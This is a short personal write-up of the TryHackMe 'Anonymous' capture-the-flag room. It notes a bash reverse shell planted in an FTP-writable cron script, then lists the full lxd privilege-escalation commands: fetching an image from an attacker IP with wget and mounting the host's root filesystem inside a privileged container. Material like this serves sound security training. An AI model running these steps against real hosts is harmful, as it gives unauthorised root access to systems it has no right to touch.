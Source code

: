 # 42. Anonymous 🧭
Names | Details
--------|-----
Source | tryhackme
Level | medium
Os | linux

**Notes :**
#other/GAtactics 
lxc escalation

## Gaining Access 😉
- ftp open. got two files
- smb open. got two files
- on ftp, script will run repeatedly which means this is executed by cronjob. we can put files to ftp.
- added bash reverse shell in script and replaced on ftp using put



## Maintaining Access 🥷
- lxd privilege escalation [refferhere](https://www.hackingarticles.in/lxd-privilege-escalation/)
- ($id)


## Important commands 🔥
1. lxc steps
	```
	git clone  https://github.com/saghul/lxd-alpine-builder.git
	cd lxd-alpine-builder
	./build-alpine
	
	share to victim machine
	
	cd /tmp
	wget http://192.168.1.107:8000/apline-v3.10-x86_64-20191008_1227.tar.gz
	lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
	lxc init myimage ignite -c security.privileged=true
	lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
	lxc start ignite
	lxc exec ignite /bin/sh
	mnt/root/root
	ls
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- check for write permission 
- check for any possibility for executing scripts


--------------------------------
**By Nibras Muhammed** 🤓🖥️